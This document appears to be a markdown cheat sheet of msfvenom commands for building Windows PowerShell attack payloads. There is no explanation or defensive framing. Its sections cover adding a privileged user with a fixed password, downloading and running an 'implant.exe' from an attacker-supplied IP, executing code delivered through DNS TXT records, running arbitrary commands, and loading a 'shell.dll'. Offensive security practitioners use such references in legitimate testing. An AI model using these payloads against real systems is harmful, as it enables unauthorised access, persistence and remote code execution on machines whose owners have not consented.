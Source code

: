 # Executable Scripting Payloads

## 01 - Add User

```
$ msfvenom -p cmd/windows/powershell/adduser user=sysadmin pass=Password1234! wmic=[true | false] custom=<group_name> -f raw
```

## 02 - Download and Execute

```
$ msfvenom -p cmd/windows/powershell/download_exec exitfunc=<seh | thread | process | none> exe=<filename>.exe url=http[s]://<IP>/implant.exe
```

## 03 - DNS TXT Query Exec

```
$ msfvenom -p cmd/windows/powershell/dns_txt_query_exec dnszone=<domain.com>
```

## 04 - Execute

1. x86 (32-bit) Payloads

```
$ msfvenom -p cmd/windows/powershell/exec cmd=<commands>

$ msfvenom -p cmd/windows/powershell/loadlibrary dll=C:\\path\\to\\shell.dll exitfunc=<seh | thread | process | none>

$ msfvenom -p cmd/windows/powershell/messagebox icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> text="<text>" title="<title>" exitfunc=<seh | thread | process | none>
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p cmd/windows/powershell/x64/exec cmd=<commands>

$ msfvenom -p cmd/windows/powershell/x64/loadlibrary dll=C:\\path\\to\\shell.dll exitfunc=<seh | thread | process | none>

$ msfvenom -p cmd/windows/powershell/x64/messagebox icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> text="<text>" title="<title>" exitfunc=<seh | thread | process | none>
```

## 05 - Text-To-Speech

```
$ msfvenom -p cmd/windows/powershell/speak_pwned
```